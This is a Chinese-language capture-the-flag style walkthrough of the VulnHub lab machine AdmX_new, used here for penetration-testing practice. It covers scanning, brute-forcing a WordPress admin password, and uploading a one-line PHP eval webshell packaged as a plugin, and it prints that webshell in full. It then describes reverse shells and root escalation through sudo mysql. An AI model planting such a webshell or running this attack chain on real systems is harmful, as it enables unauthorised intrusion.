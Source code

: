 ```yaml
---
title: VulnHub靶场 AdmX_new
description: VulnHub靶场 AdmX_new WP
pubDate: 11 06 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


## 说明

靶场里存在两个 flag

## 主机发现

进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-1.png?imageSlim)

得到目标机器 IP 为 `192.168.217.144`，进行端口服务发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-5.png?imageSlim)

发现 80 端口，运行 HTTP 服务，访问目标页面。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-2.png?imageSlim)

是一个 Ubuntu 下 Apache 的默认页面

## Web 后台登录

对该网站进行目录扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-3.png?imageSlim)

发现如下目录，访问 `http://192.168.217.144//tools/adminer.php`，得到数据库连接界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-4.png?imageSlim)

访问 `http://192.168.217.144/wordpress/` ，经过漫长的访问，才出现一个基本的 Web 框架

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-6.png?imageSlim)

不对劲，查看网络情况

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-7.png?imageSlim)

IP 是硬编码写死的，通过 burp 拦截，把这个 IP 改成真实的 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-8.png?imageSlim)

然后再进行测试，发现可以正常访问。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-9.png?imageSlim)

访问 `http://192.168.217.144/wordpress/wp-login.php` 来到 wordpress 的登录界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-10.png?imageSlim)

尝试弱口令登录，发现存在 admin 用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-11.png?imageSlim)

利用 burp 对 admin 用户进行密码爆破，得到密码为 `adam14`，成功登录后台

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-12.png?imageSlim)

## Wordpress 插件 getshell

在主题模板上放个木马，这里选择在 404 页面放了个一句话木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-13.png?imageSlim)

更新页面，结果报错失败了

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-14.png?imageSlim)

Wordpress 支持上传 ZIP 格式的插件包。我们可以写一个符合 Wordpress 格式的 webshell 然后让网站以插件加载它。

```php
<?php
/*
Plugin Name: Webshell Plugin
Description: Wordpress WebShell
Version: 1.0
Author: trtyr
*/

@eval($_POST['cmd']);
?>
```

然后将其打包成 zip，上传

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-15.png?imageSlim)

直接蚁剑连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-16.png?imageSlim)``

## 内网渗透

我们现在拿到了蚁剑的 shell，上传一个 MSF 木马，再上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-17.png?imageSlim)

主机里存在两个 flag。我们先去看看 `/home` 目录下几个用户

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-18.png?imageSlim)

存在一个 `wpadmin` 用户，在文件夹内发现 `local.txt`，结果没有权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-19.png?imageSlim)

我们回去看一下网站的数据库配置文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-20.png?imageSlim)

得到一个用户名密码 `Wp_Admin#123`，试试能不能登录数据库

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-21.png?imageSlim)

数据库登录失败，尝试拿这个密码登录用户。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-22.png?imageSlim)

登录失败，我们还知道网站密码是 `adam14`，挨个尝试，结果用户登录上去了。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-23.png?imageSlim)

在当前用户下，通过 curl 下载一个新的 MSF 木马

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-24.png?imageSlim)

没有写入权限，我们再上线一个 nc。结果这里是个大坑，试了好几遍都不行，后来发现主机有 python3，拿 python 去反弹了 shell。

拿到 shell 后直接去看那个 `local.txt`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-25.png?imageSlim)

得到第一个 flag。然后看一下这个用户能不能执行 `sudo -l`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-26.png?imageSlim)

可以发现可以执行 `/usr/bin/mysql -u root -D wordpress -p` 命令，尝试使用 `sudo` 运行该命令。经过测试，密码又是 `adam14`，拿到数据库 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-27.png?imageSlim)

使用 `system` 命令直接上 bash

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-28.png?imageSlim)

拿到 root 权限，去 root 目录下，拿到第二个 flag

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20AdmX_new/004%20AdmX_new-29.png?imageSlim)
